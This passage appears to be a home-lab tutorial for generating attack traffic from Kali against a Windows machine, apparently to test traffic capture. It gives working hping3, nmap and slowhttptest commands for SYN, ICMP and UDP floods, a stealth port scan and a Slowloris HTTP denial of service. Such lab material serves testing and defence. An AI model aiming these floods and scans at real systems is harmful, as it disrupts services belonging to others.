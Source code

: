 ```
[!] Press Ctrl+C to stop capture

================================================================================
```

---

### **Step 2: Generate Attack Traffic from Kali**

Open terminal on Kali and run these attacks:

#### **Attack 1: SYN Flood (DDoS)**
```bash
sudo hping3 -S -p 80 --flood 192.168.1.100

# -S: SYN flag
# -p 80: Target port 80 (HTTP)
# --flood: Send packets as fast as possible
# Replace 192.168.1.100 with your Windows IP
```

#### **Attack 2: Port Scan**
```bash
sudo nmap -sS -p 1-1000 192.168.1.100

# -sS: SYN stealth scan
# -p 1-1000: Scan first 1000 ports
```

#### **Attack 3: ICMP Flood**
```bash
sudo hping3 --icmp --flood 192.168.1.100

# --icmp: ICMP packets (ping flood)
# --flood: Maximum speed
```

#### **Attack 4: Slowloris (HTTP DoS)**
```bash
# Only if Windows has a web server running
slowhttptest -c 1000 -H -g -o slowloris -i 10 -r 200 -t GET -u http://192.168.1.100

# -c 1000: 1000 connections
# -H: Slowloris mode
# -i 10: 10 second intervals
```

#### **Attack 5: UDP Flood**
```bash
sudo hping3 --udp -p 53 --flood 192.168.1.100

# --udp: UDP packets
# -p 53: Target DNS port
```

---
